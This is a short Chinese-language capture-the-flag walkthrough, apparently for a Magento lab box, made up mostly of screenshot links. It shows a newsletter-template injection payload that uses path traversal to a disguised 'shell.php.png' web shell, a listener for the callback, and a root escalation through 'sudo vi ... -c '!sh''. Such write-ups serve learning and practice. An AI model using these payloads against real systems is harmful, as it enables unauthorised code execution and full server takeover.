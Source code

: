 圖1：
![image](https://hackmd.io/_uploads/rJm76rDWC.png)

然後要記得儲存
![image](https://hackmd.io/_uploads/SJJUprD-C.png)

### 執行exploit

先在機器監聽
![image](https://hackmd.io/_uploads/rkUsTHwZC.png)

然後要去這裡
> Newsletter –> Newsletter Templates -> Add New Template
> {% raw %}{{block type='core/template' template='../../../../../../media/catalog/category/shell.php.png'}}{% endraw %}  <- 這串在前面的參考資料有說
> Preview Template

圖1：
![image](https://hackmd.io/_uploads/BygkCrw-A.png)

圖2：
![image](https://hackmd.io/_uploads/S1zHCSDZR.png)

看起來前面亂填就好了(?
![image](https://hackmd.io/_uploads/SyECRBPbR.png)

記得儲存
![image](https://hackmd.io/_uploads/BkElyIPW0.png)

然後要按這個
![image](https://hackmd.io/_uploads/S1DmyLvWA.png)


### privilege escalation

![image](https://hackmd.io/_uploads/SJymeIDbR.png)

![image](https://hackmd.io/_uploads/rkWdeUw-0.png)

可以在html之下運行 vi 拿到root(他sudo 剛好可以用，不用密碼的那種)
![image](https://hackmd.io/_uploads/B1xYgUPbC.png)

直接把這串改成 `sudo vi /var/www/html/ -c '!sh'`
https://gtfobins.github.io/gtfobins/vi/#sudo

### root

![image](https://hackmd.io/_uploads/S1uLW8wW0.png)

root.txt
![image](https://hackmd.io/_uploads/SJNd-UPb0.png)
